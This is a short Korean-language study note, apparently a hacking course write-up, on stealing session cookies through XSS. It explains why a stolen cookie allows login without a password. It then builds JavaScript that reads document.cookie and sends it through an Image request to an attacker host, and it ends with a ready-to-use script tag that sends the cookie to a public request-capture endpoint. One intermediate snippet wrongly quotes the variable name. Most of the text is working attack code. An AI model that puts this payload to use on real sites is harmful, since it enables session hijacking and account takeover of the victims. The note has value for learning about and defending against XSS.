 # cookie 탈취

### #왜 쿠키를 탈취하는가?

세션ID가 쿠키에 저장된다.&#x20;

쿠키를 탈취하면, 그 사람으로 로그인 할 수 있다. (아이디, 로그인 없이)



### #탈취 방법 (Javascript 사용)

탈취할 도메인에서 <mark style="color:red;">XSS</mark>가 되어야 탈취 가능하다.



document.cookie

> 쿠키 정보를 볼 수 있다.

var cookieData = document.cookie;



공격자 서버로 전송하기&#x20;

(서버에서는 받기만 하기)



var i = new Image() # 이미지태그 생성함.&#x20;

i.src = "http://normaltic.attacker.com/";



```javascript
<img src="http://normaltic.attacker.com/">
```

이미지를 가져오기 위해서 해당 주소로 접속함.



데이터를 보내려면 GET 방식 사용&#x20;

var i = new Image() # 이미지태그 생성함.&#x20;

i.src = "http://normaltic.attacker.com/?cookie=" + "Secret\_data";



Secret\_data 대신에 쿠키값을 보내자!!

```javascript
var cookieData = document.cookie; 
var i = new Image() # 이미지태그 생성함. 
i.src = "http://normaltic.attacker.com/?cookie=" + "cookieData";
```



### #공격자 서버

VPS (가상 사설 서버)&#x20;

&#x20;   virtual private server



무료로 쓸 수 있는 것.&#x20;

https;//public.requestbin.com/r/&#x20;

URL 받을 수 있음.

> 요청이 들어오는 기록을 볼 수 있다.



### #공격 코드

```javascript
<script> 
var cookieData = document.cookie;
var i = new Image();
i.src = "https://en6kidlceif13.x.pipedream.net/?cookie=" + cookieData;
</script>
```

